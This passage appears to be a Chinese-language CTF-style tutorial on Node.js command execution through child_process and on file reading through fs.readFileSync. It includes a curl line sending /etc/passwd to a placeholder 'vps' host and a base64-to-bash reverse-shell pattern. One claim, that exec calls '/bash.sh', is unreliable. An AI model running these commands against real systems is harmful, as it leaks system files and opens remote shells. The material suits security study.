 ### child\_process 模块中的命令执行

首先我们来了解一下什么是 child\_process 模块

child\_process 模块提供了与 popen(3) 类似但不完全相同的方式衍生子进程的能力。该库通过创建管道、分叉和调用外壳来打开一个进程。child\_process 提供了几种创建子进程的方式

-   异步方式：spawn、exec、execFile、fork
-   同步方式：spawnSync、execSync、execFileSync

#### exec

Node.js 中的 chile\_process.exec 调用的是/bash.sh，它是一个 bash 解释器，可以执行系统命令

```plain
require('child_process').exec('calc');
//弹出计算器
```

-   linux 中的文件读取

```plain
require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps');
```

-   反弹 shell

```plain
require('child_process').exec('echo SHELL_BASE_64|base64 -d|bash');
```

#### execFile

```plain
require('child_process').execFile("calc",{shell:true});
```

#### fork

```plain
require('child_process').fork("./hacker.js");
```

#### spawn

```plain
require('child_process').spawn("calc",{shell:true});
```

### 文件读取

在 2023 网信柏鹭杯出现过一道类似的题，使用`fs.readFileSync`进行文件读取

要满足`fs.readFileSync`的数组格式读取需要满足以下条件

-   有`href`且非空
-   有`origin`且非空
-   `protocol` 等于`file:`
-   有`hostname`且等于空 (Windwos 下非空的话会进行远程加载)
-   有`pathname`且非空 (读取的文件路径)
